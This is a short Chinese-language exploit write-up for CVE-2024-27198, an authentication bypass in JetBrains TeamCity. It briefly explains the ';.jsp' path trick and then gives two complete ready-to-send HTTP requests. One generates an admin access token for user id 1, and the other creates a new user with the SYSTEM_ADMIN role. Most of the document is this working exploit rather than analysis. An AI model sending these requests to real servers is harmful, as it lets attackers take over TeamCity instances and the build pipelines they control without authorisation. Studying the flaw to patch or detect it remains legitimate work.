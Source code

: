 # CVE-2024-27198

## 分析

影响**TeamCity 2023.11.4**之前的版本。

原理简单来说就是通过访问一个不存在的路由，访问到`/404.html`来满足请求的 servlet 路径不是以` .jsp` 结尾，并且存在`jsp`参数。

`jsp`参数必须以`.jsp`结尾且不包含`admin/`，teamcity之后会访问这个端点实现未授权访问，为了访问不以`.jsp`结尾的端点，用`;.jsp`即可绕过。

## EXP

```http
POST /hax?jsp=/app/rest/users/id:1/tokens/feng;.jsp HTTP/1.1
Host: 172.20.10.3:8111
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```





```http
POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1
Host: 172.20.10.3:8111
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/json
Content-Length: 135

{"username": "testadmin", "password": "testadmin", "email": "testadmin", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

## References

[CVE-2024-27198 and CVE-2024-27199: JetBrains TeamCity Multiple Authentication Bypass Vulnerabilities (FIXED) | Rapid7 Blog](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)